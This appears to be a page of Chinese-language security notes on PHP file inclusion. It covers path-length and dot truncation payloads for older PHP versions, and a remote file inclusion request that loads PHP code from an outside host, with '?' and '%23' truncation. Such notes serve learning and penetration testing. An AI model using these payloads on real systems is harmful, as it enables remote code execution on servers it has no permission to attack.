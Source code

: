 ##### 路径长度截断

php版本 < 5.2.8 ，linux需要文件名长于4096，windows需要长于256

条件：windows OS，点号需要长于256；linux OS 长于4096

Windows下目录最大长度为256字节，超出的部分会被丢弃； Linux下目录最大长度为4096字节，超出的部分会被丢弃。

```
test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

##### 点号截断

php版本 < 5.2.8 ，linux需要文件名长于4096，windows需要长于256 ，windows OS，点号需要长于256

```
test.txt..................................................................................................................................................................................................................
```

#### 远程包含

allow_url_fopen = On（是否允许打开远程文件） 

allow_url_include = On（是否允许include/require远程文件）  默认情况下 这个是关闭的

在远程服务上 放置可以访问的 php 代码 远程加载即可

```http
include.php?rce=http://XXX.XXX.XXX.XX/php.txt
```

远程包含截断使用  `?、#`       需要转码(`%23`)截断
